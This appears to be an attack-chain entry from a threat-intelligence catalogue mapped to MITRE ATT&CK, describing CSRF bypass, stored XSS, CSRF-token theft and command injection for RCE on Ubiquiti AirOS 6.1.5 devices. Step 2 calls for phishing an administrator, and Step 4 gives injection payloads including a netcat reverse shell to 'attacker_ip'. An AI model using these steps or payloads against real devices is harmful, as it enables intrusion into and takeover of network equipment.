

---
tags:
  - csrf
  - xss
  - rce
  - command-injection
  - ubiquiti
  - airos
  - embedded-device
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Embedded Device
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Bypass-CSRF-in-AirOS-Web-Pages]]'
  - '[[procedures/Inject-Stored-XSS-via-CSRF-Request]]'
  - '[[procedures/Bypass-CSRF-Tokens-Using-Stored-XSS]]'
  - '[[procedures/Exploit-Command-Injection-for-RCE-in-AirOS]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Unix Shell]]'
updated_at: '2025-12-14T17:27:35.865Z'
description: >-
  A multi-stage attack exploiting CSRF bypass, stored XSS injection, XSS-enabled
  CSRF token bypass, and command injection to achieve remote code execution on
  Ubiquiti PowerBeam M5 300 devices running AirOS 6.1.5 or prior.
skill_level: intermediate
impact_level: high
id: 36fb5394-eb2c-4432-9ba0-ea7600487a9f
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Unix Shell]]'
---
# Chained CSRF Bypass, Stored XSS, and Command Injection for RCE in Ubiquiti PowerBeam M5 300

Multi-stage attack chain exploiting vulnerabilities in the AirOS web interface of Ubiquiti PowerBeam M5 300 devices (versions 6.1.5 and prior) to achieve remote code execution. The chain begins with CSRF bypass due to missing validation, allowing injection of stored XSS into the device configuration. The XSS payload then facilitates complete CSRF token bypass, enabling command injection for arbitrary command execution. This results in high-severity remote code execution (CVSS 8.8), compromising the embedded device.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser for crafting malicious pages
- Network access to the device's web interface (default port 80 or 443)

### Target Environment

- Ubiquiti PowerBeam M5 300 running AirOS 6.1.5 or prior
- Web interface exposed on the network
- Authenticated user session required for social engineering vector

### Initial Access Requirements

- Attacker must lure an authenticated admin to visit a malicious page (e.g., via phishing)
- Direct network access to the device (LAN or exposed WAN)
- No prior credentials needed, but admin session exploitation assumed

## Detailed Attack Procedures

### Step 1: Bypass CSRF in AirOS Web Pages
procedure: [[procedures/Bypass-CSRF-in-AirOS-Web-Pages]]

**Objective**: Exploit missing CSRF validation in certain AirOS web pages to send unauthorized requests that modify device configuration.

**Instructions**: Identify vulnerable endpoints in the AirOS web interface (e.g., configuration update pages) lacking proper CSRF token checks. Craft a malicious HTML form or use a scripting tool to submit a POST request directly to the target endpoint without a valid token. For example, host a simple HTML page on an attacker-controlled server that auto-submits the request upon load.

**Expected Output**: Successful modification of device settings without authentication prompts.

**Success Indicators**:
- Device configuration changes applied (e.g., verify via direct access to admin panel)
- No CSRF token error returned from the server

### Step 2: Inject Stored XSS via CSRF Request
procedure: [[procedures/Inject-Stored-XSS-via-CSRF-Request]]

**Objective**: Use the CSRF bypass to inject a persistent XSS payload into the device's configuration, which executes in the context of authenticated sessions.

**Instructions**: Lure an authenticated user to visit an attacker-controlled webpage containing a hidden form that submits a CSRF request to a vulnerable configuration endpoint (e.g., a notes or description field). The payload should be a JavaScript snippet like `` or more advanced code to read CSRF tokens. Upon submission, the payload is stored in the device's config and persists across sessions.

**Expected Output**: XSS payload stored and confirmed by accessing the modified configuration page, triggering the script.

**Success Indicators**:
- Payload executes when an admin views the affected configuration page
- No input sanitization errors; payload reflected/stored as-is

### Step 3: Bypass CSRF Tokens Using Stored XSS
procedure: [[procedures/Bypass-CSRF-Tokens-Using-Stored-XSS]]

**Objective**: Leverage the stored XSS to steal or forge CSRF tokens, enabling unrestricted access to protected web interface actions.

**Instructions**: Once the XSS is injected, the payload runs in the authenticated session's context. Modify the payload to extract CSRF tokens from form elements (e.g., using `document.querySelector` to grab token values) and exfiltrate them to an attacker server or use them to forge subsequent requests. This allows bypassing token validation for any protected endpoint.

**Expected Output**: Forged requests succeed without valid tokens, allowing arbitrary admin actions.

**Success Indicators**:
- Successful execution of protected actions (e.g., config changes) without token prompts
- Token values captured and usable in follow-on exploits

### Step 4: Exploit Command Injection for RCE in AirOS
procedure: [[procedures/Exploit-Command-Injection-for-RCE-in-AirOS]]

**Objective**: Chain the bypasses to reach command injection vulnerabilities in configuration endpoints, executing arbitrary commands on the device.

**Instructions**: Using the full CSRF bypass via XSS, submit a malicious request to a vulnerable endpoint that processes user input as shell commands (e.g., ping or diagnostic tools in AirOS). Inject payloads like `; id` or `&& nc -e /bin/sh attacker_ip 4444` to run system commands. Monitor for command output or reverse shell connection.

**Expected Output**: Arbitrary commands executed, such as shell access or file downloads from the device.

**Success Indicators**:
- Command output visible in web interface or reverse shell established
- Device fully compromised with root-level access

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections without tokens via missing validation
2. Injected and persisted XSS payload through social-engineered access
3. Achieved complete CSRF bypass using XSS in authenticated context
4. Executed remote commands leading to full device compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript
- [[Unix Shell]] Unix Shell

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
